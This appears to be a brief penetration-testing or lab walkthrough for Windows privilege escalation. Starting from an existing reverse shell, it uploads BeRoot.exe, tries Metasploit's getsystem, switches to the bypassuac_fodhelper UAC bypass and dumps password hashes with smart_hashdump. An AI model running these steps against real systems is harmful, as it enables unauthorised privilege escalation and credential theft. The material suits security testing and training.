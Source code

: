
Steps you can replicate

1.
    
    Upload the BeRoot.exe into the Machine through Reverse Shell
    
2.
    
    Interact to the win shell.
    
3.
    
    BeRoot.exe
    
4.
    
    Run post/windows/gather/smart_hashdump
    
5.
    
    to get System prev to try to use "getsystem -t 1" If it responds negative then follow the next step
    
6.
    
    Let's try another exploit. "use exploit/windows/local/bypassuac_fodhelper" and set the session into that exploit.
    
7.
    
    After exploit try to run "getuid" "getsystem -t 1" "getuid"
    
8.
    
    Run post/windows/gather/smart_hashdump